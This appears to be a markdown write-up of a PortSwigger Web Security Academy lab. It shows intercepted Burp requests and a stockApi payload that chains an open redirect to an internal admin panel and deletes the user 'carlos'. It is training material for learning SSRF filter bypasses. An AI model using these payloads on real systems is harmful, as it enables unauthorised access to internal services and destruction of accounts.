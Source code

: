 
## Intercepting the main stock-fetch request in BurpSuite

```http

POST /product/stock HTTP/2
Host: 0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
Cookie: session=****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1

```

> with 'urlencode' extension

```http
stockApi=<@urlencode>/product/stock/check?productId=14&storeId=1</@urlencode>
```

>I need to bypass regular CSRF protection.
>On the product description page there is an option to open the next product (next product).

## Intercepting this request (functionality next product)

```http

GET /product/nextProduct?currentProductId=15&path=/product?productId=16 HTTP/2
Host: 0a9e004c0393e4df8052ad46005c008a.web-security-academy.net
Cookie: session=****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9e004c0393e4df8052ad46005c008a.web-security-academy.net/product?productId=15
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> I use SSRF filter bypass technology via open redirect. I replace the value of the “path” parameter with “http://192.168.0.12:8080/admin/” in main reqeust
> and receive a response with access to the admin panel.

```http

stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/</@urlencode>

```

> I access the admin panel and users.

![Access Admin panel](./screenshots/access_admin_panel.png)

> I delete the user 'Carlos' with url 'http://192.168.0.12:8080/admin/delete?username=carlos'

```http
 
stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/delete?username=carlos</@urlencode>

```

![Solved lab](./screenshots/solved_lab.png)

